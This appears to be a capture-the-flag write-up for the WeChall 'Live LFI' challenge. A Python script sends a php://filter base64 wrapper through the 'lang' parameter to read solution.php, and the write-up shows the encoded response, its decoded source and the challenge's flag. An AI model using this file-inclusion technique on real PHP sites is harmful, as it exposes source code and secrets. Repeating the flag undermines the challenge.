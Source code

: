 ================================================================================================================
[wechall] Warchall: Live LFI
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="index.php?lang=php://filter/convert.base64-encode/resource=solution.php',true);?>",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


solve
================================================================================================================


.. code-block:: python

    import requests


    url = "http://lfi.warchall.net/index.php"

    params = {
        "lang": "php://filter/convert.base64-encode/resource=solution.php"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content



**return page**

PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K

base64 decode

.. code-block:: html

    <html>
    <body>
    <pre style="color:#000;">teh falg si naer!</pre>
    <pre style="color:#fff;">the flag is near!</pre>
    </body>
    </html>
    <?php                  #   YOUR_TROPHY 
    return 'SteppinStones42Pie'; # <-?? ?>
